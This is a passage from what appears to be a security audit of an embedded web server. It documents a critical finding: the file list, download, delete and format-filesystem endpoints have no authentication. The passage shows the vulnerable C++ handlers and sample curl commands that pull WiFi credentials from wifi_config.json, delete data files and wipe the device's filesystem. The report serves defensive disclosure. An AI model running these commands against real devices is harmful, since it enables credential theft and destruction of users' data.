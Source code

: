 ```cpp
    request->send(413, "text/plain", "File too large");
    return;
}
```

---

### 6. **Unauthenticated File System Access**

**Severity:**  CRITICAL  
**CWE:** CWE-284 (Improper Access Control)  
**CVSS Score:** 8.6 (High)

**Location:** Multiple file operations endpoints

```cpp
// Anyone can list files
server.on("/list-files", HTTP_GET, serverFileListHandler);

// Anyone can download files
server.on("/download", HTTP_GET, downloadFileHandler);

// Anyone can delete files
server.on("/delete-file", HTTP_GET, [](AsyncWebServerRequest* request) {
  String filename = request->getParam("file")->value();
  if (!filename.startsWith("/")) filename = "/" + filename;
  
  // NO AUTHORIZATION CHECK!
  if (LittleFS.remove(filename)) {
    request->send(200, "text/plain", "File deleted successfully");
  }
});

// Anyone can format the entire filesystem
server.on("/format-fs", HTTP_GET, formatFSHandler);
```

**Impact:**
- **DATA THEFT**: Download sensitive files (wifi_config.json, labels.json)
- **DATA DESTRUCTION**: Delete all files or format filesystem
- **DENIAL OF SERVICE**: Render device inoperable
- **CONFIGURATION TAMPERING**: Modify device behavior

**Attack Examples:**
```bash
# Extract WiFi credentials
curl http://[device-ip]:107/download?name=wifi_config.json

# Extract sensor labels (may contain sensitive location info)
curl http://[device-ip]:107/download?name=labels.json

# Delete all data
curl http://[device-ip]:107/delete-file?file=data.json
curl http://[device-ip]:107/delete-file?file=labels.json
curl http://[device-ip]:107/delete-file?file=wifi_config.json

# Format filesystem (complete data loss)
curl http://[device-ip]:107/format-fs
```
